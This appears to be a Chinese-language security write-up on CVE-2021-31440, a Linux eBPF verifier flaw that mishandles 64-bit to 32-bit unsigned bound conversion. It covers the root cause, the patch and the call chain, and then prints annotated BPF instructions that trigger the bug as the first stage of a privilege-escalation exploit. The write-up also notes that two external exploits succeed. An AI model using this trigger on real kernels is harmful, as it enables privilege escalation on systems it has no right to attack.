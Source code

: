 ```c
```

**漏洞**：`[1]`处，如果`smin_value`和`smax_value`都在带符号的32位整数范围内，则将相应的更新32位带符号范围大小，对于有符号的范围来说，这种操作是正确的。在无符号范围的相应逻辑中，对`umin_value`和`umax_value`分别在`[2]` 和 `[3]` 进行了检查，这里检测逻辑错误。例如，设置`dreg->umin_value=1`，`dreg->umax_value=1<<32`，即 0x100000000，经过以上操作后，`reg->u32_min_value=1`，`reg->u32_max_value=0`，高位被截断。此时reg寄存器的32位范围已经混乱，但是运行时reg的范围是正常的。

**本质原因**：漏洞代码认为有符号64位最小值为1时，32位最小值也为1，其实不一定，64位的最小值和32位的最小值并一定相等，两者并没有关系。例如64位有符号数的最小值为0x1ffffffff，而32位最小值就为-1了。可以联想到无符号数也是这种情况，比如无符号64位最小值也不一定等于32位无符号的最小值，例如64位无符号的最小值为0x100000000，32位无符号的最小值就为0。但看了代码，发现但开发者并没有补，这漏洞本质原因是**64位数的范围不同于32位数的范围**。

**补丁**：之前[`commit b02709587ea3`](https://github.com/torvalds/linux/commit/b02709587ea3d699a608568ee8157d8db4fd8cae)对于有符号边界的情况，已经进行了修改，也即将有符号的`smin_value`和`smax_value`判断条件合并到一起，但没有管无符号判断的情况。正确的补丁是，将`[2]` `[3]`合并在一起，同时判断 `umin_value` 和 `umax_value`，也即合并为`if (__reg64_bound_u32(reg->umin_value) && __reg64_bound_u32(reg->umax_value)) {`。

**调用链**：[`do_check_main()`](https://elixir.bootlin.com/linux/v5.11.20/source/kernel/bpf/verifier.c#L11977) -> [`do_check_common()`](https://elixir.bootlin.com/linux/v5.11.20/source/kernel/bpf/verifier.c#L11860) -> [`do_check()`](https://elixir.bootlin.com/linux/v5.11.20/source/kernel/bpf/verifier.c#L9851) （L10140） -> [`check_cond_jmp_op()`](https://elixir.bootlin.com/linux/v5.11.20/source/kernel/bpf/verifier.c#L8003) （L8117 / L8144） -> [`reg_set_min_max()`](https://elixir.bootlin.com/linux/v5.11.20/source/kernel/bpf/verifier.c#L7556) （L7701） -> [`__reg_combine_64_into_32()`](https://elixir.bootlin.com/linux/v5.11.20/source/kernel/bpf/verifier.c#L1312)

## 二、调试分析

[参考1](https://www.anquanke.com/post/id/242567)对应的exp是`CVE-2021-31440.c`；[参考2](https://mp.weixin.qq.com/s/RuAEFgQLD_btmzfcviJIEw)对应的exp是`CVE-2021-31440_2.c`。都能利用成功。

首先将BPF_REG_7寄存器设置为1<<32，即0x10000000，并通过两个连续的NEG指令使验证器无法跟踪寄存器的范围，同时可以保证寄存器的值在运行时不变。可以通过如下BPF指令实现：

```c
// (1) trigger vulnerability
    BPF_MAP_GET(0,BPF_REG_5),     						// 9: (79) r5 = *(u64 *)(r0 +0) 					传进r5=0x180000000

    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0), 				// 11: (bf) r8 = r0
    BPF_MOV64_REG(BPF_REG_7, BPF_REG_0), 				// 12: (bf) r7 = r0
    BPF_MOV64_REG(BPF_REG_6, BPF_REG_5),				// 13: (bf) r6 = r5

    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 1, 1),				// 14: (75) if r6 s>= 0x1 goto pc+1  	对1进行有符号比较
    BPF_EXIT_INSN(),									// 15: (95) exit

    BPF_LD_IMM64(BPF_REG_2, 0x8fffffff),				// 16: (18) r2 = 0x8fffffff 			此时认为r6的范围为：[1,0x7fffffffffffffff]
    BPF_JMP_REG(BPF_JGT, BPF_REG_6, BPF_REG_2, 1),		// 18: (2d) if r6 > r2 goto pc+1 		此时对r2进行无符号比较
    BPF_EXIT_INSN(),									// 19: (95) exit						得到r2的64位范围为[0x90000000,0x7fffffffffffffff]，32位范围为：[0x90000000, 0xffffffff]，这里检查就出现了错误：64位操作数的比较，32位的范围应该是不清楚的，但却得到范围[0x90000000, 0xffffffff]，只要传进来的数32位部分不在此范围，就可以触发漏洞

    BPF_MOV32_REG(BPF_REG_6, BPF_REG_6),				// 20: (bc) w6 = w6 					对64位进行截断，只看32位部分，范围依旧是[0x90000000, 0xffffffff]
    BPF_ALU32_IMM(BPF_ADD, BPF_REG_6, 0x70000000),		// 21: (04) w6 += 1879048192 			w6+=0x70000000,得到范围为[0,0x6fffffff]
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_6, 31),				// 22: (77) r6 >>= 31 					右移31位，取32位范围的符号位，因为认为范围是[0,0x6fffffff]，所以r6恒为0。而实际执行时，传入0x180000000时，r6=1
```
